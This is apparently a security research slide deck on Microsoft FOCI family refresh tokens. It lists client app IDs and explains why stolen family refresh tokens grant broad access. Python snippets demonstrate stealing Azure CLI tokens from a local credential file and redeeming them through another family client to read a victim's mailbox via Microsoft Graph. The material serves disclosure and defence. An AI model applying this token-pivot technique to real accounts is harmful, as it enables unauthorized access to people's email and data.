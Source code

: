 | 2d7f3606-b07d-41d1-b9d2-0d0c9296a6e8 | Microsoft Bing Search for Microsoft Edge |
| 844cca35-0656-46ce-b636-13f48b0eecbd | Microsoft Stream Mobile Native           |
| 87749df4-7ccf-48f8-aa87-704bad0e0e16 | Microsoft Teams - Device Admin Agent     |
| cf36b471-5b44-428c-9ce7-313bf84528de | Microsoft Bing Search                    |





# Security Implications of Family Refresh Tokens

- Not bound by client or resource, FRTs afford uniquely broad access compared to normal RTs
- Effectively provides authorization for the union of scopes consented to the entire FOCI "family" group
- Take a look at all the scopes available (`scope-map.txt`)
- Blast radius from FRT theft considerably larger than normal RTs



# Scenario: Stolen Azure CLI Tokens

Imagine Azure CLI tokens stolen from `~/.Azure/accessTokens.json`.


```python slideshow={"slide_type": "-"}
def read_email_messages(access_token: str) -> List[Dict[str, Any]]:
    """List the user's email messages."""
    url = "https://graph.microsoft.com/beta/me/mailfolders/inbox/messages"
    headers = {
        "Content-Type": "application/json",
        "Authorization": f"Bearer {access_token}",
    }
    return pprint(requests.get(url, headers=headers).json())
```


If the adversary steals tokens that don't have consent for the desired scopes...


```python slideshow={"slide_type": "-"}
read_email_messages(azure_cli_bearer_tokens_for_graph_api.get("access_token"))
```


No luck.



But if the adversary redeems the FRT for a different FOCI "family" client app that has consent for the desired scopes:


```python slideshow={"slide_type": "-"}
read_email_messages(microsoft_office_bearer_tokens_for_graph_api.get("access_token"))
```


Great success!
